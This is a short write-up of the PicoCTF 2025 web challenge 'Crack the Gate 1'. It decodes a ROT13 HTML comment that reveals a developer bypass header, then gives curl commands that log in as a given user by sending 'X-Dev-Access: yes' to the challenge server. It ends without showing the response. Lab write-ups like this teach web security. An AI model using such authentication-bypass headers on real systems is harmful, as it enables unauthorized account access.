


# Crack the Gate 1 (PicoCTF 2025)

## Challenge Description

We are given a web portal with a login form. The goal is to log in as the known user:

```
ctf-player@picoctf.org
```

However, the password is unknown, and normal login attempts return:

```json
{"success": false, "error": "Unauthorized access."}
```




The HTML source contains a curious comment:


```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

> A common trick is to rotate each letter by 13 positions in the alphabet.

this is the hint given with the challenge 

This hints at a ROT13-encoded message. Decoding it yields:

```
NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"
```

we can use [rot13](https://rot13.com/) to decode


This indicates the developer left a secret way in: an HTTP header bypass.


---

## with out header

now lets send request to the `login page` using curl with out header

```bash
curl -s -X POST http://amiable-citadel.picoctf.net:55923/login   -H "Content-Type: application/json" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```


---

## Seeding the Header

To unlock access:

use this command 


```bash
curl -s -X POST http://amiable-citadel.picoctf.net:49900/login   -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```



---
